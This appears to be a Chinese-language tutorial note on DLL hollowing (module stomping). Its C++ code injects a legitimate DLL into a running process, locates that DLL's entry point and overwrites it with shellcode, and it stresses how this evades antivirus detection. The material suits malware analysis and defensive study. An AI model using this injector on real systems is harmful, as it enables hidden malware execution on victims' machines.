

# DLL HOLLOWING / Module Stomping

## 介绍
> Process Hollowing + CreateRemoteThread() + shellcode. 三者的结合.<br>
> 是一种shellcode注入技术, 但也能用来注入完整的dll.<br >
> 感觉没啥意思, 就是比`CreateRemoteThread()`的dll注入结合shellcode结合, shellcode写入的空间是在进程加载的dll内而不是进程本身.

DLL HOLLOWING本质上是一种**shellcode注入**. 首先, 使用`CreateRemoteThread()`注入dll有个致命缺陷, 就是会在宿主机上留下恶意dll文件的痕迹, 杀毒软件可以通过监控入`windows/temp/`等目录实现对远程dll注入的拦截, 很容易被检测. 

所以结合Process Hollowing的思路, 把正常合法带微软签名的dll文件当做傀儡外壳, 把恶意shellcode写入合法dll外壳.最后把披着正常外壳的恶意代码当dll, 远程创建线程加载dll注入进目标进程.

为了防止进程出错，并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个**系统合法dll(例如: amsi.dll)**，然后再镂空它.

### Pros & Cons
1. 不需要分配的空间是RWX memory, 也不需要更改permissions
2. shellcode是注入到正经的dll, 所以不会被监控.
	* 像注入生成的恶意dll, 是from weird places like `c:\temp\` 
	* 所以系统只需要监控`c:\temp\`便可以抓到

1. `ReadProcessMemory`/`WriteProcessMemory` API calls, 在正常程序中不常见, 只有debuggers会用, 容易被监控
	* `ReadProcessMemory`是用来读取已经加载到进程中的模块映像头, 所以可以直接不用, 在加载前, 磁盘上直接读取(手动都行).
	* `WriteProcessMemory`API可替换, 像是`NtMapViewOfSection`.


### 步骤简介

1. 远程注入一个系统dll
	* `OpenProcess`打开注入的进程
	* `CreateRemoteThread`
2. 获取该模块在目标进程中的虚拟地址
	* `EnumProcessModules` & `GetModuleBaseNameA`
3. 定位模块的入口点
	* `AddressOfEntryPoint`
4. 使用shellcode覆写入口点
	* `VirtualAlloc`
	* `WriteProcessMemory`
5. 创建远程线程
	* `CreateRemoteThread`

## 关键代码注释

### 往目标进程中注入正常dll
就是很正常的`CreateRemoteThread`. 

```
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessPid(arg[1]));
InjectDll(hProcess, arg[2]))

BOOL InjectDll(HANDLE hProcess, char *DllName)
{
	LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, lstrlen(DllName) + 1, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, AllocMemory, DllName, lstrlen(DllName) + 1, NULL);
	PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
	HANDLE hRemoteThread = NULL;
	hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, pfnStartAddr, AllocMemory, 0, NULL);
	if (hRemoteThread == NULL)
		return false;
	return true;
}
```

### 获取模块在目标进程中的基址

1. 对比shellcode编写
	* 因为是为了获取**非远程进程加载的dll基址**
	* 所以可以直接**读寄存器**找**PEB**的地址, 然后PEB里有条进程加载的**dll链表**
	* 就可以依次循环链表找目标dll
2. 对比Process hollowing
	* 目的是读取**远程进程的基址**, 因为要整个替换掉
	* 所以通过已知的**进程句柄**获取PEB, **PEB**里包含基址
3. dll hollowing
	* 目的是获取**远程进程加载的dll基址**
	* 所以理论上可以1+2
	* 但是因为不是在写1的shellcode, 所以限制解开, 有更简单的API可以直接用
	* `EnumProcessModules` & `GetModuleBaseNameA`

```
HMODULE GetModule(HANDLE hProcess, char *DllName)
{
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);	//目标进程句柄, 所有加载的模块组成的数组, 数组大小in bytes, 所有模块的大小总和  
	//EnumProcessModulesEx(hProcess, hModules, hModulesSize, &hModulesSizeNeeded, 3);
	cout << DllName << endl;
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	cout << "Modules count" << hModulesCount << endl;

	for (int i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		cout << rModule<<"  "<< rModuleName << endl;
		string::size_type idx;
		idx = string(DllName).find(rModuleName);
		if (idx != string::npos)	// exist
		{
			cout << "Find dll " << rModuleName << endl;
			break;
		}
	}
	return rModule;
}
```

### 定位模块的入口点
找到基址后, 就能根据结构找后面的Dos头和nt头, 里面就带`EntryPoint`的地址, 最后加上上面找到的基址就行.

```
// 3. get the AddressOfEnterPoint of dll
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);	//模块entrypoint偏移+模块的基址
	cout << "dllEntryPoint is "<<dllEntryPoint << endl;
```

### shellcode覆写dll代码

```
// 4. write shellcode to DLL's AddressofEntryPoint
WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
```

### 创建远程线程执行shellcode
不用这步也行, 因为shellcode已经写入dll文件了, 关掉进程的时候也会执行.

```
// 5. execute shellcode from inside the benign DLL
CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
```

## 结果演示
用命令行启动, `arg[1]=ProcessName(DingTalk.exe), arg[2]=DllRoute(C:/windows/system32/amsi.dll) `.<br>shellcode是一段最基础的弹窗.

如下图所示, `amsi.dll`EntryPoint为`0x0927A0F0`, 用调试器看注入到进程里的这个dll的内容, 发现已经被修改成注入的shellcode.



## Reference

1. 生成和server通信的后门shellcode.[https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
)
2. [https://idiotc4t.com/code-and-dll-process-injection/dll-hollowing](https://idiotc4t.com/code-and-dll-process-injection/dll-hollowing)
3. [https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)